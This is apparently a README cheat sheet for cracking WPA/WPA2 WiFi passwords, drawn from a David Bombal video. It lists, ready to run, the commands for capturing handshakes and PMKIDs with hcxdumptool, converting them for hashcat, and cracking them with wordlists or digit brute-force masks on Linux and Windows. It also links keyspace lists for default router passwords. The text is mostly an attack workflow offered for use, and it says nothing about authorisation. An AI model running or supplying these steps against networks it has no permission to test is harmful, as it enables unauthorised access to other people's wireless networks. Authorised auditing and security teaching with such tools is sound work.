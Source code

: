# WiFi-Cracking-with-HashCat
Cat: Security

### "WiFi WPA/WPA2 vs hashcat and hcxdumptool" by David Bombal
https://www.youtube.com/watch?v=Usw0IlGbkC4&t=915s

## COMMANDS

### Stop Network Manager and WPA Supplicant Services
```
sudo systemctl stop NetworkManager && sudo systemctl stop wpa_supplicant
```

### Run hcxdumptool to capture WLAN information
```
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=1
```

### Restart Network Manager and WPA Supplicant Services
```
sudo systemctl start wpa_supplicant && sudo systemctl start NetworkManager
```

### Convert PCAPNG file to hash file
```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

### Capture MAC addresses
```
hcxdumptool --do_rcascan -i wlan0
```

### Run Hashcat with a wordlist
```
hashcat -m 22000 hash.hc22000 wordlist.txt
```
### Run Hashcat with Brute Force
```
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```
### Linux potfile
```
~/.local/share/hashcat
```

## Windows:
```
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```
```
hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```


Usefull repositories for routers with default passwords.

https://github.com/sheimo/Wifi-WPA-Keyspace-List

https://github.com/n0kovo/ssid-keyspace-table
